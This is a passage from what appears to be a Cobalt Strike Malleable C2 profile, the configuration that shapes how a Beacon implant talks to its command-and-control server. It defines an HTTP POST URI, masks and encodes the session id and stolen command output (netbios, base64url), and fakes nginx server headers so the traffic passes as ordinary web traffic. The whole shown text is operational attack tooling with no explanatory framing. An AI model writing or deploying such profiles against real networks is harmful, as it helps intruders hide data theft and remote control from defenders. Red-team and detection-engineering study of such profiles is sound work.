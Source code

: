```
        	header "Connection" "keep-alive";
        	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

# define indicators for an HTTP 
http-post {
	# Same as above, Beacon will randomly choose from this pool of URIs [if multiple URIs are provided]
	set uri "/IMXo";
	client {
		#header "Content-Type" "application/octet-stream";				

		# transmit our session identifier as /submit.php?id=[identifier]
		
		id {				
			mask;
			netbiosu;
			prepend "user=";
			append "%%";
			header "User";
		}

		# post our output with no real changes
		output {
			mask;
			base64url;
			prepend "data=";
			append "%%";		
			print;
		}
	}

	# The server's response to our HTTP POST
	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
       	 	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		# this will just print an empty string, meh...
		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
```
